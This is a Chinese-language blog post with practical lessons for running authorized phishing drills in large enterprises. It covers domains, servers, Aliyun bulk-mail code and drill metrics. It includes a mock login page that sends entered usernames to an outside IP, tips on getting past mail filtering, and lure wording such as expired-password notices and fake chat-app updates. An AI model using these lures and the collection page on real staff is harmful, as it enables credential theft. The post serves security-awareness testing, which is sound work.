

# 企业钓鱼演练的一些总结和经验 - 先知社区

企业钓鱼演练的一些总结和经验

- - -

# 前言

钓鱼，搞攻防的师傅们，做红队的师傅们都知道，但是对于在企业实施演练，具体的各种细节，只有经历过一次，把坑踩过了，才知道一些注意事项，阿鑫分享一下大型企业钓鱼演练的一些总结和经验，希望下次有师傅做这个，能够看到阿鑫的文章，避免踩到坑

# 钓鱼准备

首先是我们攻击方，需要准备的东西，钓鱼的主题，服务器，域名，邮件服务器这三样东西，我们一个一个细说  
关于钓鱼的主题，可能是钓账号密码，可能是是恶意附件钓鱼演练。  
主题定了，最重要的是要给领导们看数据：  
如果是恶意附件钓鱼演练，相应的企业对于一些恶意附件的点击可以做一个数据统计，这个比较简单，多少人点了，多少人没有点，这个数据比较直接，钓鱼的恶意附件的demo就是弹框，温馨的提示员工们不要随意运行不信任的文件，顺便在附上一个链接，链接里面的内容就是各种办公安全的小tips啥的，然后还需要建立一个公关群，给员工们答疑，此外，恶意附件一般可通过邮件发送，当然，如果公司的体量巨大，那我们还有以下几点需要注意：  
（1）邮件肯定是有策略的，我们需要多和邮件部门的同学沟通多要几个账号，以及邮件内容尽量减少触发风控的规则  
（2）文件白名单，某些企业对于未知的应用是有弹框的，可以考虑和文件白名单的同学沟通

如果是钓账号密码，领导同意做一个交互的页面，能够存储输入的账密，那这方面的数据没有问题，也可以判断出脏数据。如果是比较大的企业，你做钓鱼演练，如果真的有员工中招了，输入了自己的账号密码，引发了数据泄露问题或者一些公关问题，所以可能就需要一个前提，在不交互的情况下如何记录数据，这里给出的解决方案是在输入的用户名处记录用户名并且跳转

```plain
<!DOCTYPE html>
<form action="">
Username: <input type="text" name="user" id="useraccount"><br>
Password: <input type="password" name="password" id="userpass">
<div class="test">
<input type="button" value="确定" onclick="check();">
</div>
<script>
function check(){
    var obj = document.getElementById("useraccount");
        if(obj.value === ""){
            alert("输入不能为空!");
            return false;
        }else{
        window.location.href = 'http://1.2.2.2/index.html?user='+document.getElementById("useraccount").value;
  　　　　return true;
        }
    }
 </script>
</form>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221015182102-11ec3f14-4c73-1.jpg)  
下图为简单的实现效果，然后我们就可以查看服务器的apache日志记录相关的信息了，这是静态的页面收集信息的方法，此外，最简单的制作一个登陆页面的方法就是ctrl+s保存一下就行了，但是我们一定的把html里面自己的相关信息给删除掉（工号）

接下来说一说服务器，服务器就和域名一起说了吧，这个也是踩坑最多的，域名的话尽量和公司高度重合，像BAT这种大厂，他们也几乎把自己相似的域名全买了，也防止别有用心的人搞事，如果领导在短期内突然告诉你需要钓鱼，域名报备这一流程至少的花一周的时间，这个时候推荐用海外的服务器，即可解决。选服务器也一定要征求领导的意见，因为服务器涉及了钓鱼演练最核心的数据交互环节，一定要再三和领导确认用哪一家的服务器，腾讯云，阿里云都有国际版。服务器选择好了（建议1核2G，体量大就2核4G），现在需要对服务器做压力测试，公司人少的话或者抽样钓鱼可不用测，体量大的话这一环节必不可少，我推荐用http\_load。然后部署的话就正常用apache或者nginx，ssh或者smb别用弱口令就行，多余的服务，什么redis啊这些就别开了

最后说一说邮件服务器，网上已经有很多文章在介绍gophish配合ewomail打组合拳，或者配合postfix，网上有很多这种类似的文章，但是当企业的领导认为这不符合安全合规或者存在数据安全的风险，那么这条路就是不行的，如果公司跟云企业（腾讯云，华为云，阿里云等）是合作关系，可以询问领导的意见是否可以用他们的企业邮箱，他们的企业邮箱都是自带了邮件服务器，而且有各种api接口，后面体量比较大的话，批量发送邮件这个问题也能解决，比如阿里云的企业邮箱，我这里直接把代码copy过来。

```plain
# -*- coding:utf-8 -*-

import urllib, urllib2
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.application import MIMEApplication
from email.header import Header

# 发件人地址，通过控制台创建的发件人地址
username = 'xxx@xxx.com'
# 发件人密码，通过控制台创建的发件人密码
password = 'XXXXXXXX'

# 收件人地址列表，支持多个收件人，最多30个
rcptlist = ['to1@to.com', 'to2@to.com']
receivers = ','.join(rcptlist)

# 构建 multipart 的邮件消息
msg = MIMEMultipart('mixed')
msg['Subject'] = 'Test Email'
msg['From'] = username
msg['To'] = receivers

# 构建 multipart/alternative 的 text/plain 部分
alternative = MIMEMultipart('alternative')
textplain = MIMEText('纯文本部分', _subtype='plain', _charset='UTF-8')
alternative.attach(textplain)

# 构建 multipart/alternative 的 text/html 部分
texthtml = MIMEText('超文本部分', _subtype='html', _charset='UTF-8')
alternative.attach(texthtml)

# 将 alternative 加入 mixed 的内部
msg.attach(alternative)

# 附件类型
# xlsx 类型的附件
xlsxpart = MIMEApplication(open('测试文件1.xlsx', 'rb').read())
xlsxpart.add_header('Content-Disposition', 'attachment', filename=Header("测试文件1.xlsx","utf-8").encode())
msg.attach(xlsxpart)

# jpg 类型的附件
jpgpart = MIMEApplication(open('2.jpg', 'rb').read())
jpgpart.add_header('Content-Disposition', 'attachment', filename=Header("2.jpg","utf-8").encode())
msg.attach(jpgpart)

# mp3 类型的附件
mp3part = MIMEApplication(open('3.mp3', 'rb').read())
mp3part.add_header('Content-Disposition', 'attachment', filename=Header("3.mp3","utf-8").encode())
msg.attach(mp3part)

# 发送邮件
try:
    client = smtplib.SMTP()
    #python 2.7以上版本，若需要使用SSL，可以这样创建client
    #client = smtplib.SMTP_SSL()

    client.connect('smtpdm.aliyun.com')
    client.login(username, password)
    #发件人和认证地址必须一致
    client.sendmail(username, rcptlist, msg.as_string())
    client.quit()
    print '邮件发送成功！'
except smtplib.SMTPRecipientsRefused:
    print '邮件发送失败，收件人被拒绝'
except smtplib.SMTPAuthenticationError:
    print '邮件发送失败，认证错误'
except smtplib.SMTPSenderRefused:
    print '邮件发送失败，发件人被拒绝'
except smtplib.SMTPException,e:
    print '邮件发送失败, ', e.message
```

此外，批量发送每天发送的邮件数量有上限，需要合理安排每天发送钓鱼邮件的数量。

# 钓鱼期间

钓鱼期间我们需要随时查看钓鱼的数据和情况，比如邮件发送成功率这些（邮件服务器都有这些统计的功能），然后还要统计一下数据（这里以登陆口钓鱼举例）：  
（1）有多少同学只是点进去看了邮件  
（2）有多少同学点进去看了邮件并且访问了恶意网站  
（3）有多少同学访问了恶意网站输入了账密（乱输的）  
（4）有多少同学访问了恶意网站输入了账密（正确的用户名即可）  
（5）有多少同学举报了今天收到了钓鱼邮件  
钓鱼期间，一定需要建立公关答疑群，不管公司体量大还是小，因为许多同事可能真的没有什么安全经验，输入了自己的账号密码或者运行了恶意附件，然后也不知道找谁问问，又或者胡思乱想公司是不是考验我啥的或者和绩效挂钩？所以答疑群是必要的，此外，答疑群的部分同学甚至可以给出一些比较好的意见，我们也可以在钓鱼期间优化。

这里再说一说关于钓鱼文案，因为钓鱼的文案直接关乎了钓鱼成功率，这里有一个小技巧，我们可以打开公司公司的邮件，他们有图片，有颜文字，邮件其实也是html格式的，我们可以直接模仿，有图片，有颜文字的邮件可以起到一个更逼真的效果，咱们企业内部钓鱼，什么晋升，加薪，年假这些可千万不能用，很敏感的，如果要正常的登陆口钓鱼，我们可以用以下文案：  
（1）账号异常类（登陆认证过期，密码过期，账号异常等）  
（2）关于程序员需要知道的知识点（类似于这种），访问后就需要输入账号密码

如果是附件钓鱼的，我们可以用一下文案：  
（1）看公司用的啥通信软件（飞书，企业微信，钉钉），说这几款软件需要更新，需要运行我们的附件  
（2）系统更新，兼容性插件

此外，建议同一个部门别再一个时间发送，不然其他同事会相互讨论，你们有收到这封邮件么，以及相似的文案，不能相同，比如有5个钓鱼的邮件账号，我们这5个钓鱼的文案可以相似，但不能完全一模一样。

# 结尾

最后肯定就是把数据呈现给领导，发了多少封钓鱼邮件，多少输了账密，看钓鱼期间需要统计的数据，企业员工的网络安全意识也不是一朝一夕就可以发展好的，需要长久的宣传
